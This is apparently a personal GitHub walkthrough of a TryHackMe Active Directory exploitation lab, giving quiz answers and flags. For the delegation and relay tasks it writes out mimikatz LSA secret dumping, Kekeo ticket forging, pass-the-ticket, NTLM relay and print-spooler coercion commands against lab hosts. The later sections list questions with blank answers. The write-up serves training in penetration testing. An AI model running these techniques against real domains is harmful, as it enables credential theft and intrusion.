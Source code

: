 ![Exploiting Active Directory Banner](https://assets.tryhackme.com/room-banners/attacking-ad.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/exploitingad/Exploiting_Active_Directory_Cover.png" alt="Exploiting Active Directory Logo">
</p>

# Exploiting Active Directory

This guide contains the answer and steps necessary to get to them for the [Exploiting Active Directory](https://tryhackme.com/room/exploitingad) room.

## Table of contents

- [Exploiting Permission Delegation](#exploiting-permission-delegation)
- [Exploiting Kerberos Delegation](#exploiting-kerberos-delegation)
- [Exploiting Automated Relays](#exploiting-automated-relays)
- [Exploiting AD Users](#exploiting-ad-users)
- [Exploiting GPOs](#exploiting-gpos)
- [Exploiting Certificates](#exploiting-certificates)
- [Exploiting Domain Trusts](#exploiting-domain-trusts)

### Exploiting Permission Delegation

1. Which ACE would allow you to update any non-protected parameter of a target object?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>GenericWrite</details>

2. What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?

   Add-ADGroupMember "IT Support" -Members "lorraine.gill"
   Get-ADGroupMember "IT Support"


   ><details><summary>Click for answer</summary>THM{Permission.Delegation.FTW!}</details>

### Exploiting Kerberos Delegation

1. Which Kerberos Delegation type allows for delegation of all services?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>Unconstrained Delegation</details>

2. Which Kerberos Delegation type allows the service to specify who is allowed to delegate to it?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>Resource-Based Constrained Delegation</details>

3. Which Constrained Delegation service allows access to the file system of the system via delegation?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>CIFS</details>

4. What is the value of the flag stored in the Desktop directory of the Administrator user on THMSERVER1 (flag2.txt)?

   Using `Import-Module C:\Tools\PowerView.ps1` and `Get-NetUser -TrustedToAuth`, we can see that `svcIIS` has delegate permissions.

   PERMISSIONS
   
   Make sure to be logged in to our t2 admin account and load mimikatz to dump the lsa secrets.

   ```cmd
   C:\Tools\mimikatz_trunk\x64\mimikatz.exe
   token::elevate
   lsadump::secrets
   ```

   LSADUMP

   Now we can use `Kekeo` to generate a TGT for HTTP and WSMAN services.

   ```cmd
   C:\Tools\kekeo\x64\kekeo.exe
   tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:
   ```

   TGT

   Now that we have the TGT we can use it to forge TGS request for our svcIIS account. 

   ```cmd
   tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_duncan.moran /service:http/THMSERVER1.za.tryhackme.loc

   tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_duncan.moran /service:wsman/THMSERVER1.za.tryhackme.loc
   ```

   TGS

   In Mimikatz we set our token to default again and import the TGS tickets.

   ```cmd
   kerberos::ptt TGS_t1_duncan.moran@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

   kerberos::ptt TGS_t1_duncan.moran@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
   ```

   IMPORT

   Last step is to now create a new PSSession and connect through it to thmserver1.

   ```
   New-PSSession -ComputerName thmserver1.za.tryhackme.loc
   Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
   ```

   SESSION

   Once we are on the server we can find our flag.

   ><details><summary>Click for answer</summary>THM{Constrained.Delegation.Can.Be.Very.Bad}</details>

### Exploiting Automated Relays

1. How often (in days) are the passwords of Windows machine accounts rotated by default?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>30</details>

2. What should not be enforced if we want to relay an SMB authentication attempt?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>SMB Signing</details>

3. What is the value of the flag stored in the Desktop directory of the Administrator.ZA user on THMSERVER1 (flag3.txt)?

   First, we should setup the relay on our attackbox.

   ```cmd
   python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -smb2support -t smb://"10.200.60.201" -debug
   ```
   
   SETUP

   Now we create a request from the workstation.
   
   ```cmd
   C:\Tools\SpoolSample.exe THMSERVER2.za.tryhackme.loc "10.50.57.135"
   ```
   
   REQUEST

   We receive a hash dump from thmserver1 which we can use to login and get the flag. 

   CREDENTIALS

   In this case, I will use the previously gained access to get the flag.

   FLAG3

   ><details><summary>Click for answer</summary>THM{Printing.Some.Shellz}</details>

### Exploiting AD Users

1. What application is used to open the kdbx credential database?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>keepass</details>

2. What meterpreter command do we use to move from SYSTEM to user context?

   The answer can be found in the text.

   ><details><summary>Click for answer</summary>migrate</details>

3. What is the password of the credential database?



   ><details><summary>Click for answer</summary></details>

4. What is the value of the flag stored in the credential database?



   ><details><summary>Click for answer</summary></details>

### Exploiting GPOs

1. What object allows users to configure Windows policies?



   ><details><summary>Click for answer</summary></details>

2. What AD feature allows us to configure GPOs for the entire AD structure?



   ><details><summary>Click for answer</summary></details>

3. What is the name of the GPO that our compromised AD account owns?



   ><details><summary>Click for answer</summary></details>

4. What is the value of the flag stored on THMSERVER2 in the Administrator's Desktop directory (flag4.txt)?



   ><details><summary>Click for answer</summary></details>

### Exploiting Certificates

1. What does the user create to ask the CA for a certificate?



   ><details><summary>Click for answer</summary></details>

2. What is the name of Microsoft's PKI implementation?



   ><details><summary>Click for answer</summary></details>

3. What is the value of the flag stored on THMDC in the Administrator's Desktop directory (flag5.txt)?



   ><details><summary>Click for answer</summary></details>

### Exploiting Domain Trusts

1. What domain trust relationship is by default configured between a parent and a child domain?



   ><details><summary>Click for answer</summary></details>

2. What is the name of the AD account used by the KDC to encrypt and sign TGTs?



   ><details><summary>Click for answer</summary></details>

3. What is the name of the TGT that grants access to resources outside of our current domain?



   ><details><summary>Click for answer</summary></details>

4. What is the value of the flag stored on THMROOTDC in the Administrator's Desktop folder (flag6.txt)?



   ><details><summary>Click for answer</summary></details>

